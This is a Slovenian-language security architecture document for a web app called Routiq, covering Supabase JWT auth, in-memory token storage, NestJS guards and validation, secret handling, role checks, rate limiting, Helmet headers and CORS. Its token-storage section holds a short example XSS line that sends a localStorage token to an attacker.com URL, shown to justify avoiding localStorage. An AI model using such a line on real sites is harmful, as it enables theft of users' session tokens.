



# Varnostna arhitektura — Routiq

← [Nazaj na README](../README.md)

---

## Kazalo

1. [Avtentikacija in JWT tok](#1-avtentikacija-in-jwt-tok)
2. [Shranjevanje tokenov](#2-shranjevanje-tokenov)
3. [Backend varnostni sloji](#3-backend-varnostni-sloji)
4. [API ključi — shranjevanje](#4-api-ključi--shranjevanje)
5. [Permission sistem (skupin vloge)](#5-permission-sistem-skupin-vloge)
6. [Rate limiting](#6-rate-limiting)
7. [Helmet — HTTP security headers](#7-helmet--http-security-headers)
8. [CORS konfiguracija](#8-cors-konfiguracija)

---

## 1. Avtentikacija in JWT tok

Routiq uporablja **Supabase Auth** za upravljanje identitet. Supabase skrbi za:
- Izdajanje JWT tokenov ob loginu
- Verifikacijo tokenov na zahtevo backenda
- Google OAuth flow
- Session management (refresh tokenov)



**Zakaj Supabase Auth in ne lastni Passport.js JWT?**
- Supabase skrbi za varno hrambo gesel (bcrypt), token rotacijo in OAuth
- Zmanjšuje površino za napake — lastna JWT implementacija ima pogosto varnostne pomanjkljivosti
- Integrirana z bazo — JWT `sub` direktno ustreza `user.id` v PostgreSQL

---

## 2. Shranjevanje tokenov



### Zakaj NE `localStorage`?

`localStorage` je dostopen kateremu koli JavaScript skriptu v isti domeni. XSS napad (injicirana JS koda) bi zlahka ukradel token:

```javascript
// Napadalec s XSS dostopom
const stolen = localStorage.getItem('access_token')
fetch('https://attacker.com/steal?token=' + stolen)
```

### Zakaj memory (React Context)?

Token v RAM-u ni dostopen zunanjemu JS. Edina slabost: token se izgubi ob osvežitvi strani — to Supabase SDK avtomatsko reši z `refreshSession()` ob inicializaciji.

```typescript
// AuthContext.tsx — primer
const [user, setUser] = useState<User | null>(null)
const accessTokenRef = useRef<string | null>(null) // NE useState — ne renderira

useEffect(() => {
  supabase.auth.onAuthStateChange((event, session) => {
    if (session) {
      accessTokenRef.current = session.access_token
      setUser(session.user)
    }
  })
}, [])
```

---

## 3. Backend varnostni sloji

### JwtAuthGuard (globalen)

Vsak request gre skozi `JwtAuthGuard` ki:
1. Izvleče Bearer token iz `Authorization` headerja
2. Pokliče `supabase.auth.getUser(token)` za verifikacijo
3. Pokliče `upsertUser()` za sinhronizacijo lokalnih podatkov
4. Priloži `user` objekt na `request` objekt

```typescript
// Endpoints ki ne zahtevajo auth:
@Public()
@Get('health')
healthCheck() { ... }
```

### ValidationPipe (globalen)

```typescript
new ValidationPipe({
  whitelist: true,              // Odstrani vsa polja ki niso v DTO
  transform: true,              // Pretvori string → number kjer je pričakovan
  forbidNonWhitelisted: true,   // Vrže 400 za neznana polja (ne samo ignorira)
})
```

`forbidNonWhitelisted: true` je ključen — brez tega bi napadalec lahko poslal extra polja ki bi se "prodrla" do baze prek spread operatorjev.

### GlobalExceptionFilter

Vsa mesta kjer pride do napake vrnejo konzistenten format brez razkrivanja internih detajlov:

```json
// Produkcija — nikoli ne razkrivamo stack trace ali SQL napak
{
  "success": false,
  "error": {
    "code": "INTERNAL_SERVER_ERROR",
    "message": "An unexpected error occurred",
    "statusCode": 500
  }
}
```

---

## 4. API ključi — shranjevanje

```
NIKOLI ne commitamo .env datotek v git!
.gitignore vsebuje: .env, .env.local, .env.production
```

### Backend (.env) — ostane na strežniku

```env
DATABASE_URL=postgresql://...          # Supabase connection pooler (pgbouncer)
DIRECT_URL=postgresql://...            # Direktna konekcija — samo za prisma migrate
SUPABASE_JWT_SECRET=...               # Iz Supabase dashboard → Settings → API → JWT Secret
GEMINI_API_KEY=...
GOOGLE_PLACES_API_KEY=...
GOOGLE_MAPS_DIRECTIONS_API_KEY=...
GOOGLE_WEATHER_API_KEY=...
GOOGLE_CLIENT_ID=...
GOOGLE_CLIENT_SECRET=...
MAIL_HOST=smtp.resend.com             # Resend SMTP konfiguracija
MAIL_PORT=465
MAIL_USER=resend
MAIL_PASS=...                         # Resend API key
MAIL_FROM=onboarding@resend.dev
FRONTEND_URL=https://routiq.vercel.app
```

### Frontend (.env) — edina izjema

```env
VITE_API_URL=https://routiq.onrender.com/api
VITE_GOOGLE_MAPS_API_KEY=...          # Omejen ključ!
VITE_SUPABASE_URL=https://xxx.supabase.co
VITE_SUPABASE_ANON_KEY=...            # Anon ključ (ne service role!)
```

**Zakaj `VITE_GOOGLE_MAPS_API_KEY` na frontendu?**
Google Maps JavaScript SDK zahteva klientski ključ za inicializacijo v brskalniku. Ta ključ mora biti **omejen** v Google Cloud Console:
- Samo za HTTP referrers (vaša domena: `https://routiq.vercel.app/*`)
- Samo za `Maps JavaScript API` (ne za Places, Directions, Weather)

**`VITE_SUPABASE_ANON_KEY` vs `SUPABASE_JWT_SECRET`:**
- `VITE_SUPABASE_ANON_KEY` = omejen javni ključ za frontend Supabase SDK (login, session)
- `SUPABASE_JWT_SECRET` = backend skrivnost za verifikacijo JWT tokenov (iz Supabase dashboard → Settings → API). **Samo na backendu!**

---

## 5. Permission sistem (skupin vloge)

Hierarhija: `OWNER > ADMIN > MODERATOR > MEMBER`



Backend preverja vloge na service nivoju (ne controller):

```typescript
// groups.service.ts
async removeMember(groupId: string, targetUserId: string, callerId: string) {
  const callerMember = await this.getAcceptedMember(groupId, callerId)
  const targetMember = await this.getAcceptedMember(groupId, targetUserId)

  const roleRank = { OWNER: 4, ADMIN: 3, MODERATOR: 2, MEMBER: 1 }

  // Caller mora imeti višjo vlogo kot tarča
  if (roleRank[callerMember.role] <= roleRank[targetMember.role]) {
    throw new ForbiddenException('Insufficient permissions')
  }

  // OWNER se ne sme sam odstraniti (zaščita pred osirotelo skupino)
  if (targetMember.role === 'OWNER' && targetUserId === callerId) {
    throw new BadRequestException('Cannot remove yourself as the sole owner')
  }
  ...
}
```

---

## 6. Rate limiting

Rate limiting preprečuje zlorabo drage AI kvote in ščiti pred DDoS napadi.

| Endpoint | Limit | Razlog |
|---|---|---|
| Globalno | 100 req/min na IP | Splošna zaščita |
| `POST /itinerary/generate` | 5 req/min na userja | Gemini API klic (drag in kvota) |

Implementacija prek `@nestjs/throttler`:

```typescript
// Na generate endpointu
@Throttle({ default: { ttl: 60000, limit: 5 } })
@Post('generate')
async generate() { ... }
```

Ko je limit prekoračen, backend vrne:
```json
{ "success": false, "error": { "code": "TOO_MANY_REQUESTS", "statusCode": 429, "message": "Rate limit exceeded" } }
```

---

## 7. Helmet — HTTP security headers

`helmet()` middleware (v `main.ts`) samodejno nastavi varnostne HTTP headerje:

| Header | Vrednost | Opis |
|---|---|---|
| `Content-Security-Policy` | `default-src 'self'` | Preprečuje injiciranje zunanjih skriptov |
| `X-Frame-Options` | `SAMEORIGIN` | Preprečuje clickjacking (iframe embedding) |
| `X-Content-Type-Options` | `nosniff` | Preprečuje MIME type sniffing |
| `Strict-Transport-Security` | `max-age=31536000` | Wymaga HTTPS za 1 leto |
| `X-XSS-Protection` | `1; mode=block` | Stari XSS filter za legacy brskalnike |

```typescript
app.use(helmet({
  contentSecurityPolicy: {
    directives: {
      defaultSrc: ["'self'"],
      styleSrc: ["'self'", "'unsafe-inline'"],   // Tailwind inline stili
      scriptSrc: ["'self'"],
      imgSrc: ["'self'", 'data:', 'https:'],       // Wikipedia slike in avatarji
    },
  },
  crossOriginEmbedderPolicy: false,  // Dovoli embedding za deljene itinerarje
}))
```

---

## 8. CORS konfiguracija

```typescript
const allowedOrigins = [
  'https://routiq.vercel.app',    // Produkcija
  'http://localhost:5173',        // Vite dev
  'http://localhost:5174',        // Vite dev (fallback)
  'http://localhost:5175',
  'http://localhost:5176',
  ...configService.getAllowedOrigins(),  // Iz FRONTEND_URL env var
]

app.enableCors({
  origin: allowedOrigins,
  credentials: true,  // Potrebno za Supabase session cookie
})
```

`credentials: true` je potreben ker Supabase SDK pošilja session cookie ob nekaterih operacijah.
